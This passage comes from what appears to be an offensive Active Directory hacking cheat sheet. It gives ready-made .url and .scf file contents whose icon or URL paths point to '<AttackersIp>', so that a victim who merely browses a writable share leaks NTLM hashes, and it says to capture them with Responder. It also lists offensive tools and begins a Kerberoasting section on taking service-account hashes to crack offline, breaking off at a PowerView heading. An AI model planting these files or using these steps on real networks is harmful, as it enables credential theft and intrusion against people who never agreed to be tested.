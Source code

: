 ```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<AttackersIp>\%USERNAME%.icon
IconIndex=1
```

```
[InternetShortcut]
URL=file://<AttackersIp>/leak/leak.html
```

* .scf file

```
[Shell]
Command=2
IconFile=\\<AttackersIp>\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Putting these files in a writeable share the victim only has to open the file explorer and navigate to the share. **Note** that the file doesn’t need to be opened or the user to interact with it, but it must be on the top of the file system or just visible in the windows explorer window in order to be rendered. Use responder to capture the hashes.

.scf file attacks won’t work on the latest versions of Windows.

#### **Useful Tools**

* [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward capabilities.
* [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
* [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting
* [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp and open version of windows builtin runas.exe
* [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft.git) creates all possible file formats for url file attacks

### **Domain Privilege Escalation**



#### **Kerberoast**

_WUT IS DIS?:_\
All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a “user”\
account, extract the encrypted blob that was encrypted using the user’s password and bruteforce it offline.

* **PowerView:**

